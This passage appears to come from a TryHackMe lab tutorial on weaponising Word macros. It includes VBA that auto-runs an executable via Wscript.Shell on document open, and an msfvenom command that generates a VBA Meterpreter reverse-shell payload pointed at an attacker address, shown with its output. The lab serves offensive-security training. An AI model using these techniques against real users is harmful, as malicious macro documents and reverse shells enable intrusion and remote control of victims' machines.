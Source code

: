 It is important to note that to make the macro work, we need to save it in Macro-Enabled format such as .doc and docm. Now let's save the file as Word 97-2003 Template where the Macro is enabled by going to File → save Document1 and save as type → Word 97-2003 Document and finally, save.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/a5e35b7436173da709dae5695c34d4f9.png)

Let's close the Word document that we saved. If we reopen the document file, Microsoft Word will show a security message indicating that Macros have been disabled and give us the option to enable it. Let's enable it and move forward to check out the result.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/e140bfbce59d6cf3e71489dba094adc2.png)

Once we allowed the Enable Content, our macro gets executed as shown,

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/ca228c238732dcdf21139317992a0083.png)

Now edit the word document and create a macro function that executes a calc.exe or any executable file as proof of concept as follows,

```javascript
Sub PoC()
	Dim payload As String
	payload = "calc.exe"
	CreateObject("Wscript.Shell").Run payload,0
End Sub
```

To explain the code in detail, with Dim payload As String, we declare payload variable as a string using Dim keyword. With payload = "calc.exe" we are specifying the payload name and finally with CreateObject("Wscript.Shell").Run payload we create a Windows Scripting Host (WSH) object and run the payload. Note that if you want to rename the function name, then you must include the function name in the  AutoOpen() and Document\_open() functions too.

Make sure to test your code before saving the document by using the running feature in the editor. Make sure to create AutoOpen() and Document\_open() functions before saving the document. Once the code works, now save the file and try to open it again.

![](https://tryhackme-images.s3.amazonaws.com/user-uploads/5d617515c8cd8348d0b4e68f/room-content/5c80382621d3fcb578a9e128ca821e71.png)

It is important to mention that we can combine VBAs with previously covered methods, such as HTAs and WSH. VBAs/macros by themselves do not inherently bypass any detections.

Answer the questions below

Now let's create an in-memory meterpreter payload using the Metasploit framework to receive a reverse shell. First, from the AttackBox, we create our meterpreter payload using msfvenom. We need to specify the Payload, LHOST, and LPORT, which match what is in the Metasploit framework. Note that we specify the payload as VBA to use it as a macro.

Terminal

```shell-session
user@AttackBox$ msfvenom -p windows/meterpreter/reverse_tcp LHOST=10.50.159.15 LPORT=443 -f vba
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 341 bytes
Final size of vba file: 2698 bytes
```
